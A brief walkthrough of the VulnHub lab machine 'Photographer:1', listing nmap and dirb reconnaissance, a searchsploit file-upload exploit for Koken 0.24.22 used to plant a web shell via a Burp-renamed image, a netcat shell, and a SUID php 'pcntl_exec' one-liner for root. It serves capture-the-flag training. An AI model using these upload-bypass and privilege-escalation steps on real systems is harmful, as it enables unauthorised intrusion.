 

# Photographer:1 Walkthrough

**VulnHub Link:** [Photographer:1](https://www.vulnhub.com/entry/photographer-1,519/)
**Difficulty:** Easy
**Release Date:** 21 Jul 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```
whatweb <ip>:8000 --> koken 0.24.22 vuln

```bash
searchsploit koken 0.24.22
searchsploit -m php/webapps/48706.txt
```

we are doing what is written in txt file 

image.php.jpg uploaded and changed into image.php in burp intercept 

then downloaded and found path of shell file in web server

shell opened with netcat --> user flag captured

## 3. Privilege Escalation 

find / -perm /4000 2>/dev/null

php7.2 

./php -r "pcntl_exec('/bin/sh', ['-p']);"

escalating to root ---> root flag captured
